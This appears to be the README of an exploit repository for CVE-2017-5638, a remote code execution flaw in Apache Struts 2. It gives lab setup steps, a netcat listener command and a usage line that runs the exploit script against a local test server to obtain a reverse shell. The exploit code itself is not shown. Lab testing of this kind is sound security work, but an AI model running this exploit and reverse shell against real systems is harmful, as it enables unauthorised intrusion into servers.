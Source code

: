 # CVE-2017-5638
Apache Struts 2 Vulnerability Remote Code Execution

Reverse shell from target

Author: anarc0der - github.com/anarcoder

Tested with tomcat8

Install tomcat8

Deploy WAR file https://github.com/nixawk/labs/tree/master/CVE-2017-5638

Ex:

Open: $ nc -lnvp 4444

python2 struntsrce.py --target=http://localhost:8080/struts2_2.3.15.1-showcase/showcase.action --ip=127.0.0.1 --port=4444

